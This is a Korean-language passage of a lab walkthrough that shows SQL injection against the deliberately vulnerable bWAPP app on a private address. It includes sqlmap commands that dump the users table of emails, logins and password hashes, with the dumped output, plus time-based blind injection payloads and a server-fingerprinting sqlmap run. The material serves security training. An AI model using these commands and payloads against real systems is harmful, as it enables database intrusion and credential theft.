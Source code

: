 * column들의 이름들을 알았으니 email, login, password, secret들의 column 정보들을 dump해야 함

5. column이 갖고 있는 정보 dump 하기

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_4.php?title=test&action=search" --cookie="PHPSESSID=b7269975b579606d86426fca0c3b0e56;security_level=0" -D bWAPP -T users -C email,login,password,secret --dump
```

```bash
Database: bWAPP
Table: users
[2 entries]
+--------------------------+--------+------------------------------------------+-------------------------------------+
| email                    | login  | password                                 | secret                              |
+--------------------------+--------+------------------------------------------+-------------------------------------+
| bwapp-aim@mailinator.com | A.I.M. | 6885858486f31043e5839c735d99457f045affd0 | A.I.M. or Authentication Is Missing |
| bwapp-bee@mailinator.com | bee    | 6885858486f31043e5839c735d99457f045affd0 | Any bugs?                           |
+--------------------------+--------+------------------------------------------+-------------------------------------+

[18:16:39] [INFO] table 'bWAPP.users' dumped to CSV file '/root/.sqlmap/output/192.168.190.143/dump/bWAPP/users.csv'
[18:16:39] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.190.143'

[*] shutting down at 18:16:39
```

## SQL Injection - Blind - Time-Based

![image](https://user-images.githubusercontent.com/28076542/52174834-4fb49080-27dd-11e9-8662-53b06f7f09b4.png)

* `'or 1=1 #`이나 `'or 1=2 #`이나 똑같은 결과를 보여줌
* `'or id=1 and substr(title,1,1)="G" and sleep(1) #`는 참이여서 시간이 걸림
* `'or id=1 and substr(title,1,1)="I" and sleep(1) #`는 거짓이여서 바로 결과가 반환됨

### SQLMAP으로 Time-Based 조작해보기

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_15.php?title=aaaaa&action=search" -p title --cookie="PHPSESSID=b7269975b579606d86426fca0c3b0e56;security_level=0" --banner --technique=T --level=2
```

* -p: 취약한 파라미터를 지정하는 옵션으로 title로 지정함

```bash
.96-0ubuntu3
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner:    '5.0.96-0ubuntu3'
[18:43:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.190.143'

[*] shutting down at 18:43:08
```
